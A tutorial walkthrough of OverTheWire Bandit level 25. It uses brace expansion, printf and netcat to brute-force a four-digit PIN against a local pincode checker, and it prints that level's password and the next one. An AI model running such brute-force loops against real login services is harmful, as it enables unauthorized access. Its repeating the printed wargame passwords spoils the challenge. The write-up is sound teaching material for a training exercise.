

# Level 25: Brute Force It!

## <a name='Overview'></a>Overview

In this level, you learn about brute-force attacks. A brute force attack is
just trying one thing at a time until you get what you want. If there are 1
million passwords to try, a brute force attack will try each one. In order to
brute force the password, we'll combine a few of the concepts/commands from
the previous levels.

<!--NOTE: Do not edit table of content's. This is auto generated using an vscode-extension. -->
## <a name='TableofContents'></a>Table of Contents
<!-- vscode-markdown-toc -->
* [Overview](#Overview)
* [Table of Contents](#TableofContents)
* [Completing the Level Goal](#CompletingtheLevelGoal)
	* [Command Demo](#CommandDemo)
	* [ Command Breakdown](#CommandBreakdown)
		* [Generating the PIN Space](#GeneratingthePINSpace)
	* [Sending over the password](#Sendingoverthepassword)
	* [Adding in the current password](#Addinginthecurrentpassword)
	* [Putting it all together](#Puttingitalltogether)
* [Discussion Points](#DiscussionPoints)
* [Learn More](#LearnMore)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='CompletingtheLevelGoal'></a>Completing the Level Goal

For this level, you divide and conquer the problem. We need to do two things:

1. We need to generate all possible combinations of 4 digit numbers (0
through 9)
2. We need to add in the current password and send the password to the server
running on port 30002

The command demo will show the complete solution but be sure to jump to the
command breakdown section to see how we built up the solution.

### <a name='CommandDemo'></a>Command Demo



### <a name='CommandBreakdown'></a> Command Breakdown

#### <a name='GeneratingthePINSpace'></a>Generating the PIN Space

The first thing to figure out is how to list all the combinations of numbers. I'm naturally lazy so, of course I'm not going to write them all out.

```shell
# We need to generate all combinations of 4-digit pins. We can do that
# using `echo` and shell brace expansion.  With brace expansion, it expands whatever is in the braces:
bandit24@bandit:~$ echo {0..9}
0 1 2 3 4 5 6 7 8 9
bandit24@bandit:~$ 

# How about two digits?
bandit24@bandit:~$ echo {0..9}{0..9}
00 01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99
bandit24@bandit:~$ 

# This event works letters!
bandit24@bandit:~$ echo {A..C}{0..9}
A0 A1 A2 A3 A4 A5 A6 A7 A8 A9 B0 B1 B2 B3 B4 B5 B6 B7 B8 B9 C0 C1 C2 C3 C4 C5 C6 C7 C8 C9
bandit24@bandit:~$ 
```

### <a name='Sendingoverthepassword'></a>Sending over the password

In previous levels, you learned to use the `nc` or netcat utility. It lets
you send stuff to servers. We can use that to send the password/pin to the
server on port 30002

```shell
# Okay this is promising! Convienently it tells us the exact format.
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.

# Let's try sending something as a test
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
foo 1234
Wrong! Please enter the correct current password. Try again.

# Okay let's try sending the current password but a random pin:
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1234 
Wrong! Please enter the correct pincode. Try again.

# Okay great, but how do I send something without copy/pasting it in?
# Let's use shell pipes to send it!
bandit24@bandit:~$ echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1234" | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.

# Okay piping works...what about a redirect?
bandit24@bandit:~$ nc localhost 30002 < <(echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1234")
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.

# Note: In that last command we had to put the command `echo` in `<()` otherwise
# the shell thinks you want to redirect the contents of a file called `echo` in
# the working directory.

bandit24@bandit:~$ nc localhost 30002 < echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1234"
-bash: echo: No such file or directory
bandit24@bandit:~$ 
```

### <a name='Addinginthecurrentpassword'></a>Adding in the current password

Okay great, we know how to generate the pins and we know how to send them over. Before we move on, let's try to get the formating a little better.

```shell

```
We know we need to add the current level's password in, but what's the format we should use. Let's experiment:

```shell
# First, let's create a variable to store the current password:
CURRPASS="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

# With the `printf` command we cant format it a little better. Let's try it out
# Looks good. The `\r\n` just says print a new line. The `%s` is a print
# directive that says, replace `%s` with the next string.
bandit24@bandit:~$ printf "%s\r\n" "$CURRPASS "{0..9}
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 2
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 3
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 4
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 5
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 6
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 7
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 8
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9

```

### <a name='Puttingitalltogether'></a>Putting it all together

Now that we've built up our command, we can use it:

```shell
bandit24@bandit:~$ nc localhost 30002 < <(printf "%s\r\n" "$CURRPASS "{0..9}{0..9}{0..9}{0..9})
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
<omitted>
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

Ofcourse we can clean it up with a simple grep (assuming I knew that *password* was going to be in the output):

```shell
# Just search for the string "password" in the output
bandit24@bandit:~$ nc localhost 30002 < <(printf "%s\r\n" "$CURRPASS "{0..9}{0..9}{0..9}{0..9}) | grep "password"
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

## <a name='DiscussionPoints'></a>Discussion Points

* What's wrong with the brute force method?
* Is there anyway to make this go faster?

## <a name='LearnMore'></a>Learn More

* (*Article*) [Expansion, *linuxcommand.org*](http://linuxcommand.org/lc3_lts0080.php)
